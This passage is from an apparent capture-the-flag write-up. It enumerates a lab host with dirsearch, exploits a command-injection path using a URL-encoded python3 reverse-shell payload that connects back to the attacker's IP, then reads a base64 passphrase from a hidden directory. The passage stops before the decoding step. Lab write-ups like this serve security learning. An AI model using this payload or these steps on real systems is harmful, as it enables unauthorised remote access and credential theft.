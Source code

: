 ```
dirsearch -u 10.10.109.87/assets/index.php
```

```yaml
[07:31:55] Starting: assets/index.php/                                                                      
[07:31:56] 404 -  274B  - /assets/index.php/%2e%2e//google.com              
[07:32:29] 200 -   40B  - /assets/index.php/p_/webdav/xmltools/minidom/xml/sax/saxutils/os/popen2?cmd=dir

```
This hinted at a Remote Code Execution (RCE) vulnerability. Using [Reverse Shell Generator](https://www.revshells.com/), I crafted a reverse shell payload based on python3:

``` yaml
http://10.10.109.87/assets/index.php/p_/webdav/xmltools/minidom/xml/sax/saxutils/os/popen2?cmd=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.9.3.99%22,8888));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22sh%22)%27
```
This successfully granted me shell access.

## Privilege Escalation - Discovering Hidden Credentials

I proceed to the regular system shell

```console
 > script -qc /bin/bash /dev/null
```

While exploring directories, I discovered passphrase.txt:

```yaml
www-data@myheroacademia:/var/www$ ls
ls
Hidden_Content  html
www-data@myheroacademia:/var/www$ cd Hidden_Content
cd Hidden_Content
www-data@myheroacademia:/var/www/Hidden_Content$ ls
ls
passphrase.txt
www-data@myheroacademia:/var/www/Hidden_Content$ cat passphrase.txt
cat passphrase.txt
QWxsbWlnaHRGb3JFdmVyISEhCg==
www-data@myheroacademia:/var/www/Hidden_Content$ 
```

Decoding it via CyberChef:
